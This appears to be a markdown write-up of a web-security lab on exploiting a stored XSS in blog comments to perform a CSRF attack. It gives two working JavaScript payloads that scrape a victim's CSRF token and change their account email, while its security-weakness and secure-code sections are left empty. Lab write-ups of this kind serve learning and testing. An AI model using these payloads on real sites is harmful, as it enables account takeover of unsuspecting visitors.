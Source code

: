 ## Exploiting XSS to perform CSRF

### Objective:
- This lab contains a stored XSS vulnerability in the blog comments function. 
- To solve the lab, exploit the vulnerability to perform a CSRF attack and change the email address of someone who views the blog post comments.
- You can log in to your own account using the following credentials: `wiener:peter`

### Security Weakness:

### Exploitation Methodology:

```js
<script> 
var req = new XMLHttpRequest(); 
req.onload = handleResponse; 
req.open('get','/my-account',true); 
req.send(); 
function handleResponse() { 
	var token = this.responseText.match(/name="csrf" value="(\w+)"/)[1]; 
	var changeReq = new XMLHttpRequest(); 
	changeReq.open('post', '/my-account/change-email', true); 
	changeReq.send('csrf='+token+'&email=test@test.com') 
}; 
</script>
```


Also, check if I can use **`fetch`** method. 
```JavaScript
fetch('/my-account')
  .then(response => response.text())
  .then(html => {
    const token = html.match(/name="csrf" value="(\w+)"/)[1];
    return fetch('/my-account/change-email', {
      method: 'POST',
      headers: {
        'Content-Type': 'application/x-www-form-urlencoded'
      },
      body: `csrf=${token}&email=test@test.com`
    });
  });
```
### Insecure Code:

### Secure Code:


